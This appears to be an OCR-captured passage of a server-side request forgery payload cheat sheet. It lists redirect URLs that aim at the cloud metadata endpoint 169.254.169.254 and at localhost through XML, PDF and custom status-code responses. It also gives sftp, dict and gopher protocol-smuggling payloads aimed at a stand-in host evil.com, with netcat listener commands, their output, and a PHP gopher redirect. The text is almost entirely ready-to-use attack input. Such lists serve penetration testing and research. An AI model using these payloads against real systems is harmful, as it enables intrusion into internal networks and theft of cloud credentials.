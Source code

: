             # 301 xml:
            https://ssrf.localdomain.pw/xml-without-body/301-http-169.254.169.254:80-.x.xml
            https://ssrf.localdomain.pw/xml-without-body-md/301-http-.x.xml
            https://ssrf.localdomain.pw/xml-with-body/301-http-169.254.169.254:80-.x.xml
            https://ssrf.localdomain.pw/xml-with-body-md/301-http-.x.xml
            
            # 301 pdf:
            https://ssrf.localdomain.pw/pdf-without-body/301-http-169.254.169.254:80-.p.pdf
            https://ssrf.localdomain.pw/pdf-without-body-md/301-http-.p.pdf
            https://ssrf.localdomain.pw/pdf-with-body/301-http-169.254.169.254:80-.p.pdf
            https://ssrf.localdomain.pw/pdf-with-body-md/301-http-.p.pdf
            
            # 30x custom:
            https://ssrf.localdomain.pw/custom-30x/?code=332&url=http://169.254.169.254/&content-type=YXBwbGljYXRpb24vanNvbg==&body=eyJhIjpbeyJiIjoiMiIsImMiOiIzIn1dfQ==&fakext=/j.json
            
            # 20x custom:
            https://ssrf.localdomain.pw/custom-200/?url=http://169.254.169.254/&content-type=YXBwbGljYXRpb24vanNvbg==&body=eyJhIjpbeyJiIjoiMiIsImMiOiIzIn1dfQ==&fakext=/j.json
            
            # 201 custom:
            https://ssrf.localdomain.pw/custom-201/?url=http://169.254.169.254/&content-type=YXBwbGljYXRpb24vanNvbg==&body=eyJhIjpbeyJiIjoiMiIsImMiOiIzIn1dfQ==&fakext=/j.json
            
            # HTML iframe + URL bypass
            http://ssrf.localdomain.pw/iframe/?proto=http&ip=127.0.0.1&port=80&url=/
            
            # SFTP
            http://whatever.com/ssrf.php?url=sftp://evil.com:11111/
            
            evil.com:$ nc -v -l 11111
            Connection from [192.168.0.10] port 11111 [tcp/*] accepted (family 2, sport 36136)
            SSH-2.0-libssh2_1.4.2
            
            # Dict
            http://safebuff.com/ssrf.php?dict://attacker:11111/
            
            evil.com:$ nc -v -l 11111
            Connection from [192.168.0.10] port 11111 [tcp/*] accepted (family 2, sport 36136)
            CLIENT libcurl 7.40.0
            
            # gopher
            # http://safebuff.com/ssrf.php?url=http://evil.com/gopher.php
            <?php
                    header('Location: gopher://evil.com:12346/_HI%0AMultiline%0Atest');
            ?>
            